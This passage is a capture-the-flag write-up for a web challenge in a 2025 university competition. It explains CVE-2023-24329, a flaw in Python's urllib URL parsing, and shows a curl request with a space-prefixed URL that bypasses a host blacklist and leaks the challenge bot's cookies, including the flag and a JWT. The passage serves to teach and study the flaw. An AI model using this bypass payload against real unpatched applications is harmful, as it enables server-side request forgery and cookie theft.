 In the first result, we can find [this blog post](https://www.vicarius.io/vsociety/posts/cve-2023-24329-bypassing-url-blackslisting-using-blank-in-python-urllib-library-4), which talks about CVE-2023-24329.

In Python version prior to **3.11.4**, `urllib.parse.urlparse` function will **return empty hostname** (`netloc`) if the **URL schema starts with a space character**:

```python
>>> import urllib.parse
>>> 
>>> urllib.parse.urlparse('http://127.0.0.1/')
ParseResult(scheme='http', netloc='127.0.0.1', path='/', params='', query='', fragment='')
>>> urllib.parse.urlparse(' http://127.0.0.1/')
ParseResult(scheme='', netloc='', path=' http://127.0.0.1/', params='', query='', fragment='')
```

Huh, interesting. Is the challenge using Python version <= 3.11.3?

`Dockerfile`:

```bash
FROM python:3.11.3-alpine3.18
[...]
```

Oh it is!

## Exploitation

Armed with the above information, we can get the flag via **sending a POST request to `/flag` with parameter `url= http://127.0.0.1/flag`**. By doing so, the parsed hostname will be an empty string, which passes the `blacklist` check. Then, the headless Chrome browser will go to ` http://127.0.0.1/flag`. After Chrome's URL normalization, the URL will be `http://127.0.0.1/flag`, which means the bot has the flag cookie, and the cookie will be rendered to us.

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Firebird-Chan's-Travel-Guide)-[2025.01.13|16:30:05(HKT)]
└> curl -X POST http://phoenix-chal.firebird.sh:36007/visit --data-urlencode 'url= http://127.0.0.1/flag'
[...]
            <span class="my-4 text-4xl font-bold break-all">[[{'domain': '127.0.0.1', 'httpOnly': False, 'name': 'cookie', 'path': '/', 'sameSite': 'Lax', 'secure': False, 'value': 'firebird{wow_CVE-2023-24329_challenge_very_cool_at_least_I_have_cookies_QAQ}'}, {'domain': '127.0.0.1', 'httpOnly': False, 'name': 'jwt', 'path': '/', 'sameSite': 'Lax', 'secure': False, 'value': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJnaXZlbl91cmwiOiIgaHR0cDovLzEyNy4wLjAuMS9mbGFnIn0.5Z8ApQybDZXaw6qgkgdAPga56chdoVLnDdGiOfibLL4'}]]</span><br>
[...]
```

- Flag: **`firebird{wow_CVE-2023-24329_challenge_very_cool_at_least_I_have_cookies_QAQ}`**

## Conclusion

What we've learned:

1. CVE-2023-24329 `urllib.parse.urlparse` parser differential